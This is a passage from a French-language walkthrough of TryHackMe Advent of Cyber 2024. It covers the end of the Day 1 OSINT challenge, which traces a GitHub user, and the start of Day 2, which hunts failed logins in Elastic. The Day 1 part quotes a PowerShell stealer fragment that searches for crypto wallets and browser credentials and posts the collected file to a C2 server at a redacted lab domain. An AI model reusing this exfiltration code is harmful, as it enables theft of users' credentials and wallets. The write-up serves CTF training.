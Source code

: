 ```powershell
function Send-InfoToC2Server {
    $c2Url = "http://[...expurgé...].thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

En poussant l'analyse du compte Github, nous trouvons le nom de la personne qui se cache derrière le pseudo M.M.

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-01_GithubUser.png" caption="Informations sur M.M." %}

En recherchant les *Issues* ouverts par cet utilisateur, nous trouvons un autre dépôt ayant un certain nombre de *Commits* que je ne dévoilerai pas pour conserver une part de challenge !

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-01_issue.png" caption="Une issue ouverte par l'utilisateur" %}

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-01_repo.png" caption="Le nombre de commits est la dernière question du jour" %}

## Jour 2 : Le faux positif d'une personne, est le pot-pourri d'un autre

![Log analysis](https://img.shields.io/badge/Log%20analysis-314267?logo=tryhackme)

![Jour 2](https://tryhackme-images.s3.amazonaws.com/user-uploads/5dbea226085ab6182a2ee0f7/room-content/5dbea226085ab6182a2ee0f7-1730369227263.png)

Le défi du jour consiste en de l'analyse de log avec l'outil **Elastic**.

Nous commençons par cibler l'intervalle de temps 29/11/2024 00:00 --> 01/12/2024 23:30 comme indiqué dans l'histoire du jour.

Pour simplifier la lecture, nous choisissons d'afficher les valeurs :

* host.hostname
* user.name
* event.outcome
* event.category
* process.command_line
* source_ip

Pour trouver le compte à l'origine des connexions échouées, nous pouvons utiliser le bouton `-` pour exclure les connexions réussies et ne conserver que les échecs.

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-02_failure.png" caption="Un seul compte à l'origine des échecs de connexions" %}
